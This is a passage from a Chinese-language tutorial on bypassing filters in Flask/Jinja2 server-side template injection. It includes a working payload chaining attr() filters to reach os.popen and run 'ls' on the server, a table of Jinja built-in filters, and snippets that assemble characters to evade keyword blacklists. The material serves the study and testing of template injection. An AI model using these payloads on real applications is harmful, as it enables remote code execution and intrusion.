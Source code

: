 等同于：

```python
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

大家可以发现这几种方法中都用到了`|attr()`，前面也说过，这是 JinJa 的一种过滤器，下面我们可以详细了解一下 JinJa 的过滤器，以便我们加深对绕过的理解，以及研究以后新的绕过。

使用 JinJa 的过滤器进行Bypass
---------------------

在`Flask JinJa`中内置有很多过滤器可以使用，前文的`attr()`就是其中的一个过滤器。变量可以通过过滤器进行修改，过滤器与变量之间用管道符号（|）隔开，括号中可以有可选参数，也可以没有参数，过滤器函数可以带括号也可以不带括号。可以使用管道符号（|）连接多个过滤器，一个过滤器的输出应用于下一个过滤器。

详情请看官方文档：<https://jinja.palletsprojects.com/en/master/templates/#builtin-filters>

以下是内置的所有的过滤器列表：

| [`abs()`](https://jinja.palletsprojects.com/en/master/templates/#abs) | [`float()`](https://jinja.palletsprojects.com/en/master/templates/#float) | [`lower()`](https://jinja.palletsprojects.com/en/master/templates/#lower) | [`round()`](https://jinja.palletsprojects.com/en/master/templates/#round) | [`tojson()`](https://jinja.palletsprojects.com/en/master/templates/#tojson) |
|---|---|---|---|---|
| [`attr()`](https://jinja.palletsprojects.com/en/master/templates/#attr) | [`forceescape()`](https://jinja.palletsprojects.com/en/master/templates/#forceescape) | [`map()`](https://jinja.palletsprojects.com/en/master/templates/#map) | [`safe()`](https://jinja.palletsprojects.com/en/master/templates/#safe) | [`trim()`](https://jinja.palletsprojects.com/en/master/templates/#trim) |
| [`batch()`](https://jinja.palletsprojects.com/en/master/templates/#batch) | [`format()`](https://jinja.palletsprojects.com/en/master/templates/#format) | [`max()`](https://jinja.palletsprojects.com/en/master/templates/#max) | [`select()`](https://jinja.palletsprojects.com/en/master/templates/#select) | [`truncate()`](https://jinja.palletsprojects.com/en/master/templates/#truncate) |
| [`capitalize()`](https://jinja.palletsprojects.com/en/master/templates/#capitalize) | [`groupby()`](https://jinja.palletsprojects.com/en/master/templates/#groupby) | [`min()`](https://jinja.palletsprojects.com/en/master/templates/#min) | [`selectattr()`](https://jinja.palletsprojects.com/en/master/templates/#selectattr) | [`unique()`](https://jinja.palletsprojects.com/en/master/templates/#unique) |
| [`center()`](https://jinja.palletsprojects.com/en/master/templates/#center) | [`indent()`](https://jinja.palletsprojects.com/en/master/templates/#indent) | [`pprint()`](https://jinja.palletsprojects.com/en/master/templates/#pprint) | [`slice()`](https://jinja.palletsprojects.com/en/master/templates/#slice) | [`upper()`](https://jinja.palletsprojects.com/en/master/templates/#upper) |
| [`default()`](https://jinja.palletsprojects.com/en/master/templates/#default) | [`int()`](https://jinja.palletsprojects.com/en/master/templates/#int) | [`random()`](https://jinja.palletsprojects.com/en/master/templates/#random) | [`sort()`](https://jinja.palletsprojects.com/en/master/templates/#sort) | [`urlencode()`](https://jinja.palletsprojects.com/en/master/templates/#urlencode) |
| [`dictsort()`](https://jinja.palletsprojects.com/en/master/templates/#dictsort) | [`join()`](https://jinja.palletsprojects.com/en/master/templates/#join) | [`reject()`](https://jinja.palletsprojects.com/en/master/templates/#reject) | [`string()`](https://jinja.palletsprojects.com/en/master/templates/#string) | [`urlize()`](https://jinja.palletsprojects.com/en/master/templates/#urlize) |
| [`escape()`](https://jinja.palletsprojects.com/en/master/templates/#escape) | [`last()`](https://jinja.palletsprojects.com/en/master/templates/#last) | [`rejectattr()`](https://jinja.palletsprojects.com/en/master/templates/#rejectattr) | [`striptags()`](https://jinja.palletsprojects.com/en/master/templates/#striptags) | [`wordcount()`](https://jinja.palletsprojects.com/en/master/templates/#wordcount) |
| [`filesizeformat()`](https://jinja.palletsprojects.com/en/master/templates/#filesizeformat) | [`length()`](https://jinja.palletsprojects.com/en/master/templates/#length) | [`replace()`](https://jinja.palletsprojects.com/en/master/templates/#replace) | [`sum()`](https://jinja.palletsprojects.com/en/master/templates/#sum) | [`wordwrap()`](https://jinja.palletsprojects.com/en/master/templates/#wordwrap) |
| [`first()`](https://jinja.palletsprojects.com/en/master/templates/#first) | [`list()`](https://jinja.palletsprojects.com/en/master/templates/#list) | [`reverse()`](https://jinja.palletsprojects.com/en/master/templates/#reverse) | [`title()`](https://jinja.palletsprojects.com/en/master/templates/#title) | [`xmlattr()`](https://jinja.palletsprojects.com/en/master/templates/#xmlattr) |

可以自行点击每个过滤器去查看每一种过滤器的作用。我们就是利用这些过滤器，一步步的拼接出我们想要的字符、数字或字符串。

### 常用字符获取入口点

- 于获取一般字符的方法有以下几种：

```php
{% set org = ({ }|select()|string()) %}{{org}} {% set org = (self|string()) %}{{org}} {% set org = self|string|urlencode %}{{org}} {% set org = (app.__doc__|string) %}{{org}} 
```

如下演示：

```php
{% set org = ({ }|select()|string()) %}{{org}}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4460ffd9da758f379e1d5602910e8d07898434a1.png)

如上图所示，我们可以通过 `<generator object select_or_reject at 0x7fe339298fc0>` 字符串获取的字符有：尖号、空格、下划线，以及各种字母和数字。
